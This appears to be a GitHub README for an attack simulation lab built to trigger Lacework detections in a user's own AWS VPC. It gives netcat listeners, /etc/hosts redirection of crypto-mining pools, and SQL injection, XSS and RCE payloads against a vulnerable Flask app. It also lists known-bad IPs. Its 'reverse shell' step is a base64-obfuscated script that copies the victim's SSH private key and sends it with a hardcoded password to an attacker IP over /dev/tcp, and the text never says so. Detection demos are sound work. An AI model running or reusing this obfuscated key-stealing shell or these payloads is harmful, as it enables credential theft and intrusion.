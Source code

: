 # 🧪 Welcome to the Attack Simulation Lab

This demo simulates various types of attacks within your **own VPC environment**. It includes Compromise Host (LW Composite alert), Remote Command Execution, XSS, IP Spoofing, and simulates known bad IP behavior. **This is only for educational and demonstration purposes only.**

![image](https://github.com/user-attachments/assets/71727044-909d-471a-9876-8858fcb27d91)


> **IMPORTANT:** All tests must be run within your **own VPC lab environment**. 

---

## 🛠️ Preparations

### Git Clone the Demo Simulator repo

```
git clone https://github.com/svuillaume/demo_simulator
```

### 1. Launch Two VMs with Public IP assigned
- **Attacker VM**
- **Victim VM**

### 2. Create an AWS ELB
- **Create a new Target Group and Register Attack VM**

Note: The above are intended for Lacework to detect these VM "Internet Exposure"

---

## Attacker VM Setup

1. **Install Docker**
2. **Deploy Lacework Agent**

---

## Victim VM Setup

1. **Install dependencies**
   ```
   sudo apt update
   sudo apt install python3 python3-pip -y
   pip3 install flask
   ```

2. **Set up the attack simulation script**
   ```
   chmod +x demo_simulator/lw_attack_sim.sh
   ```

3. **Update crypto pools in the script**  
   Use custom pool URLs:
   - `evil.v2.xmrig.com`
   - `donate.v2.xmrig.com`

4. **Edit `/etc/hosts` to redirect mining pools to attacker**
   ```plaintext
   127.0.0.1 localhost
   <Attacker-IP> donate.v2.xmrig.com
   ```

5. **Run the Flask application**
   ```
   python3 app.py
   ```
6. **Deploy Lacework Agent**
   ***Ideally enable AVD on the agent setup***   

---

# Running the Simulation

## On the Attacker VM (Open 2 Terminals or use screen)

1. **Create a persistent socket listener on Terminal 1 or screen 1:**

```
nc -k -l 3333 &
```

2. **Create a new socat tcp listener on tcp 5555**

```
 nc -lvnp 4444
```
 
3. **Optionally run traffic simulation with k6 on Terminal 2 or screen 2:**

```
sudo docker run --rm -v $(pwd):/scripts grafana/k6 run /scripts/k6.js
```

### On the Victim VM

1. **Intiate an interactive Reverse Shell***

```
bash -c  'echo "IyEvYmluL2Jhc2gKCmlmIFsgLWQgIiRIT01FLy5zc2giIF07IHRoZW4KICBpZiBbIC1mICIkSE9N
RS8uc3NoL2lkX3JzYSIgXTsgdGhlbgogICAgbWtkaXIgLXAgfi90bXAvc3NoX2tleXMKICAgIGNw
ICIkSE9NRS8uc3NoL2lkX3JzYSIgfi90bXAvc3NoX2tleXMvCiAgICBjaG1vZCA3Nzcgfi90bXAv
c3NoX2tleXMvaWRfcnNhCiAgICBzc2hwYXNzIC1wICdhdHRhY2tlcjEyMzQ1IScgc2NwIH4vdG1w
L3NzaF9rZXlzL2lkX3JzYSBhdHRhY2tlckAxNzIuMzEuMzAuMTAzOn4vCiAgZmkKZmkK" | base64 -d | bash > /dev/tcp/172.31.30.103/4444'
```
---

# HOWTO run the Demo

**On the Attacker VM**

1. **Using the establisehd Reverse Shell Connection, Run the attack simulation script***

```
./demo_simulator/lw_attack_sim.sh
```

***Note: The script will run for 5 minutes*** 
***On the Attacker VM, you can run K6.js script to generate traffic from all over the world (this is using the x-forward-for header)***

---


# Owasp Attacks: These are for your own inspiration

### Remote Command Execution (RCE)

Submit OS commands via the vulnerable Flask app:

---

### SQLI - SQL Injection

http://<victim>:5000/user?id=123
http://<victim>:5000/user?id=1%20OR%201=1

### Reflected XSS

Test for reflected XSS using the greet endpoint:

- [Greet](http://<victim_IP>:5000/greet)


**Example:**

```
http://<victim_IP>:5000/greet?name=<script>alert('GotYou :)')</script>
```

### Fetch AWS secret

```
export AWS_SECRET_ACCESS_KEY="my_fake_secret_key"
python3 web.py
```

```
http://<victim>:5000/secret
```

### RCE - Remote Code Exec

```
http://<victim>:5000/cmd?exec=ls%20-l%20/
http://localhost:5000/cmd?exec=ll%20.ssh%20/"](http://3.96.142.208:5000/cmd?exec=ls%20-l%20~/.ssh
```

---

### Client IP Logging

Test client IP extraction:

- [Client IP](http://<victim_IP>:5000/client-ip)

**Spoof IP via curl:**

```
curl -H "X-Forwarded-For: 1.2.3.4" http://<victim_IP>:5000/client-ip
```

---

## Known Bad IPs for Simulation (Use with Caution)

| IP Address       | Description                                   |
|------------------|-----------------------------------------------|
| `45.227.253.55`  | Malware C2 - AbuseIPDB                        |
| `185.220.101.1`  | Tor exit node (flagged)                       |
| `1.3.3.7`        | Red team/meme IP                              |
| `222.186.30.50`  | Brute-force attacker (common honeypot source) |
| `89.248.167.131` | Blacklisted scanner (abuse reports)           |
| `23.129.64.50`   | Tor exit node - flagged in feeds              |

> ⚠️ **Do NOT scan or connect to these IPs from outside your VPC. Use only for simulation/logging tests.**

---

## Happy Demo!

Happy testing — use responsibly in isolated environments.

---

### Socat and NetCat Clean up

***On Attacker VM***

```
lsof -i -n -P | grep nc | awk '{print $2}' | sort -u | xargs -r kill -9
```

***On Victim VM***

```
lsof -i -n -P | grep socat | awk '{print $2}' | sort -u | xargs -r kill -9
ps -p 175610 -o etime,cmd
```
